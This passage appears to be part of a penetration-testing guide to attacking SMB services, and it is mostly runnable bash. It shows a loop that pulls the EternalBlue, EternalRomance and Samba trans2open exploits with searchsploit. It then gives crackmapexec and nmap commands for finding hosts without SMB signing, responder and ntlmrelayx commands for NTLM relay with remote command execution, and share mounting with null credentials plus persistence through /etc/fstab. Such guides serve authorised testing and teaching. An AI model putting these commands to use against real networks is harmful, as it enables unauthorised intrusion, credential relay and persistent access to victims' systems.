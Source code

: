 **Step 2: SMBv1 Exploitation**
```bash
# Common SMBv1 exploits to test
exploits=(
    "42315.py"  # MS17-010 EternalBlue
    "42031.py"  # MS17-010 EternalRomance
    "7104.c"    # Samba trans2open
)

for exploit in "${exploits[@]}"; do
    echo "Searching for: $exploit"
    searchsploit -m "$exploit" 2>/dev/null
done
```

### Method 3: SMB Relay Attacks

**Step 1: SMB Signing Detection**
```bash
# Check SMB signing requirements
crackmapexec smb $IP --gen-relay-list targets.txt
nmap --script smb-security-mode -p 445 $IP

# Multiple target scanning
crackmapexec smb 192.168.1.0/24 --gen-relay-list relay_targets.txt
```

**Step 2: SMB Relay Setup (If Signing Disabled)**
```bash
# Setup responder
responder -I eth0 -wrf

# Setup ntlmrelayx (in another terminal)
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support

# Alternative with specific commands
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

## Advanced SMB Attacks

### Method 1: SMB Share Mounting and Persistence

**Step 1: Permanent Share Mounting**
```bash
# Create mount point
mkdir /mnt/target_share

# Mount with credentials
mount -t cifs //$IP/share /mnt/target_share -o username=user,password=pass

# Mount with null credentials
mount -t cifs //$IP/share /mnt/target_share -o username=,password=

# Persistent mounting (add to /etc/fstab)
echo "//$IP/share /mnt/target_share cifs username=user,password=pass 0 0" >> /etc/fstab
```

